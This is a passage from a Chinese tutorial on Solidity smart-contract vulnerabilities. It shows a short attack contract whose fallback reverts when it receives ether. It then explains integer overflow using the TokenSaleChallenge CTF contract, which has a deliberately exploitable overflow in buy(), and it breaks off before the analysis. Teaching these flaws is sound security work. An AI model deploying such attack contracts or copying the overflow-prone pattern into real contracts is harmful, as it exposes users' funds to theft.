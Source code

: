    ```solidity
   contract attack{
       address target =0xd4c14dEeE2d55e2F999FFaAdb8d11CC7c6f67909;
       function attack() payable public {
           target.call{value : 0.001 ether}("");
       }
       fallback() external payable {
           revert();
       }
   }
   ```

   

## 	整数溢出漏洞

原理：

在solidity中有两种整数的表达方式，分别是int和uint，代表有符号和无符号整数，整数溢出漏洞存在于uint中，比如uint(0-1)就相当于2^256-1，系那个一个小数字变成一个极大的数，分为上溢出和下溢处。通常使msg.value上溢出让交易金额变小，使余额下溢处获得更多余额。

举个例子，msg.value发生上溢出：

```solidity
pragma solidity ^0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] >= numTokens);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}
```

分析：

